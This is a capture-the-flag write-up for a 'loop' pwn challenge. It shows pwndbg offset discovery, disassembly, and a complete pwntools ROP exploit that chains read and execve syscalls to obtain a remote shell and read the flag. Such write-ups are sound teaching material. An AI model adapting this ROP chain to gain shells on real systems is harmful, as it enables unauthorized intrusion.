 ## Question 

Can you pwn this mysterious service?

nc 0.cloud.chals.io 34997

## Solution

Testing some initial input, we realize we can influence both RAX and \[RSP\], after 73 and 33 bytes respectively.

```
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
pwndbg> r
Starting program: /root/workspace/loop 
The end is the beginning, and the beginning is the end
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
...

pwndbg> x/s $rsp
0x7fffffffe648:	"aaataaauaaavaaawaaaxaaayaaa\n"
pwndbg> x/s $rax
0x6b6161616a616161:	<error: Cannot access memory at address 0x6b6161616a616161>
pwndbg> cyclic -l aaat
73
pwndbg> cyclic -l 0x6a616161
33
```

Since the binary uses syscalls(), we should be able to construct our own syscalls to execve(). However, since the binary does not have a "/bin/sh" string, we will need to write one to memory ourselves. Luckily, there is a writable region of memory mapped at 0x666000.

```
00401000  int64_t _start() __noreturn

00401000  {
00401019      syscall(sys_write {1}, 1, "The end is the beginning, and th…", 0x37);
00401042      syscall(sys_mmap {9}, 0x666000, 0x1000, 3, 0x22, 0xffffffff, 0);
0040104b      trial();
0040105a      syscall(sys_exit {0x3c}, 0);
0040105a      /* no return */
0040105a  }
```

There are a couple syscalls() calls in the binary. Since we will need to perform both a SYS_read and SYS_execve, picking the right one proves important. We can reuse the syscall used for the earlier SYS_mmap since, it immediately enters the main trial() function afterwards. This will allow us to perform a second overflow.

```
0040103d  b809000000         mov     eax, 0x9
00401042  0f05               syscall 
00401044  48c7c3ffffffff     mov     rbx, 0xffffffffffffffff
0040104b  e810000000         call    trial
00401050  bf00000000         mov     edi, 0x0
00401055  b83c000000         mov     eax, 0x3c
0040105a  0f05               syscall 

```

Putting it together, we will:
	- syscall(SYS_exec, path=data, argv=0, envp=0)
	- send "/bin/sh\0\n"
	- syscall(SYS_read, fd=0x0, buf=data, len=9)

Our final exploit follows:

```python3
from pwn import *
import time

e = context.binary = ELF("./loop")
p = remote('0.cloud.chals.io', 34997)
r = ROP(e)

pop_rdi = p64((r.find_gadget(['pop rdi', 'ret']))[0])
pop_rsi = p64((r.find_gadget(['pop rsi', 'ret']))[0])
pop_rdx = p64((r.find_gadget(['pop rdx', 'ret']))[0])
syscall = p64(0x401042)
data = 0x666000


def write_rax(rax):
    '''33 bytes to write rax, 73 bytes to overflow [rsp]'''
    return cyclic(33)+p64(rax)+cyclic(32)


def sys_exec():
    '''syscall(SYS_exec, path=*data, argv=0, envp=0)'''
    pad = write_rax(constants.SYS_execve)
    chain = pop_rdi
    chain += p64(data)
    chain += pop_rsi
    chain += p64(0x0)
    chain += pop_rdx
    chain += p64(0x0)
    chain += syscall
    p.sendline(pad + chain)


def sys_read():
    '''syscall(SYS_read, fd=0x0, buf=*data, len=9)'''
    pad = write_rax(constants.SYS_read)
    chain = pop_rdi
    chain += p64(0x0)
    chain += pop_rsi
    chain += p64(data)
    chain += pop_rdx
    chain += p64(0x9)
    chain += syscall
    p.sendline(pad + chain)


def send_sh():
    '''send "/bin/sh"'''
    time.sleep(1)
    p.sendline(b"/bin/sh\0")


sys_read()
send_sh()
sys_exec()

p.interactive()
```
Running it gives us a shell and we can read the flag.

```
~/workspace $ python3 pwn-loop.py 

[+] Opening connection to 0.cloud.chals.io on port 34997: Done
[*] Loaded 6 cached gadgets for './loop'
[*] Switching to interactive mode
The end is the beginning, and the beginning is the end
Proceed? (y/n): Proceed? (y/n): $ whoami
loop
$ cat /home/loop/flag.txt
FLAG{4ll_7h15_l00p1ng_g07_m3_d1zzy}
```


